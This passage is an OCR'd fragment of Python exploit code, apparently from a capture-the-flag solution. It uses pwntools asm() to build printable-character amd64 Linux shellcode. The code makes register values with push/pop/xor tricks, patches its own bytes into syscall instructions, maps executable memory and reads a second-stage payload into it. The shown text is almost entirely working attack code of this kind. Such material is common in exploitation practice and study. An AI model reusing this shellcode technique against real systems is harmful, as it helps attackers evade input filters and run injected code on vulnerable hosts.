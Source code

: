```python
        pop rdi

        /*mov rsi, 0x7e*/
        push 0x7e
        pop rsi

        /*mov rdx, 0x7*/
        push 0x37
        pop rax
        xor al, 0x30
        push rax
        pop rdx

        /*mov r8, 0*/
        push 0x30
        pop rax
        xor al, 0x30
        push rax
        pop r8

        /*mov r9, 0*/
        push rax
        pop r9

        /*syscall*/
        push 0x5e
        pop rcx
        xor byte ptr [rbx+0x2c], cl
        push 0x5c
        pop rcx
        xor byte ptr [rbx+0x2d], cl

        /*mov rax, 0x9*/
        push 0x39
        pop rax
        xor al, 0x30
''', arch = 'amd64', os = 'linux')

code_read = asm('''
        /*mov rsi, 0x40404040*/
        push 0x40404040
        pop rsi

        /*mov rdi, 0*/
        push 0x30
        pop rax
        xor al, 0x30
        push rax
        pop rdi

        /*mov rdx, 0x7e*/
        push 0x7e
        pop rdx

        /*mov rax, 0*/
        push 0x30
        pop rax
        xor al, 0x30

        /*syscall*/
        push 0x5e
        pop rcx
        xor byte ptr [rbx+0x4f], cl
```